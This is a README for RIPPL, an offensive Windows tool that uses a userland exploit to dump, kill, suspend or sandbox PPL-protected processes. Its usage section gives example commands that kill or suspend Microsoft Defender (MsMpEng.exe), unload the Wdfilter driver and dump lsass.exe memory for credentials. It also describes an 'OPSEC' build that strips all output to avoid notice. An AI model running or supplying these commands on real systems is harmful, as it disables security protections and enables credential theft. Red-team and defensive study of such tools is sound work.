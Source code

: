 # RIPPL
### Manipulating PPL protected processes without using a driver

![defender funny](https://video.twimg.com/tweet_video/FMb42iHXMA82XVw.mp4)

This tool implements a __userland__ exploit to manipulate Windows PPL protected processes. The technique was initially discussed by James Forshaw (a.k.a. [@tiraniddo](https://twitter.com/tiraniddo)) and Clément Labro (a.k.a. [@itm4n](https://twitter.com/itm4n)) in the following blogposts. 

- __Blog post from James Forshaw__: [Windows Exploitation Tricks](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- __Blog post from Clément Labro part #1__: [Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)
- __Blog post from Clément Labro part #2__: [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)


## Usage

### Warning: the safe version of the binary __NEVER__ outputs anything, as all the strings and print function are stripped away using conditional compilation macros.
Simply run the executable without any argument and you will get a detailed help/usage (only valid for binaries compiled without defining the `OPSEC` macro)

```console
c:\Temp>.\rippl.exe
  _____  _____ _____  _____  _
 |  __ \|_   _|  __ \|  __ \| |
 | |__) | | | | |__) | |__) | |      version 0.1
 |  _  /  | | |  ___/|  ___/| |      by @last0x00
 | | \ \ _| |_| |    | |    | |____  forked by itm4n's PPLDump
 |_|  \_\_____|_|    |_|    |______|

Description:
  Manipulate Protected Process Light (PPL) processes with a *userland* exploit

Usage:
  rippl.exe (-D|-K|-S|-R|-L|-X|-W|-Z|-T|-U) [-v] [-d] [-f] (PROC_NAME|PID) [DUMP_FILE|DRIVER_NAME]
  () -> mandatory arguments
  [] -> optional arguments

Operation modes (choose ONLY one):
  -D -> Dump the given process
  -K -> Kill the given process
  -S -> Suspend the given process
  -R -> Resume the previously suspended process
  -L -> Leak a PROCESS_ALL_ACCESS handle to the given process (not yet implemented)
  -X -> Kill the given process by assigning it to a job object and terminating the object
  -W -> Freeze the process by assigning it to a job object and severely constraining its CPU resources
  -Z -> Kill the given process by injecting a thread into it which calls exit(0)
  -T -> Sandbox the process by disabling all of its token's privileges and lowering integrity to untrusted
  -U -> Unload the provided driver

Arguments:
  PROC_NAME   -> The name of the process to interact with
  PID         -> The ID of the process to interact with
  DUMP_FILE   -> The path of the output dump file - valid ONLY with the -D option
  DRIVER_NAME -> The name of the driver to unload - valid ONLY with the -U option

Options:
  -d -> (Debug) Enable debug mode
  -f -> (Force) Bypass DefineDosDevice error check

Examples:
  rippl.exe -K MsMpEng.exe
  rippl.exe -S MsMpEng.exe
  rippl.exe -R MsMpEng.exe
  rippl.exe -D -f lsass.exe lsass.dmp
  rippl.exe -D -v -f 720 out.dmp
  rippl.exe -U Wdfilter
```
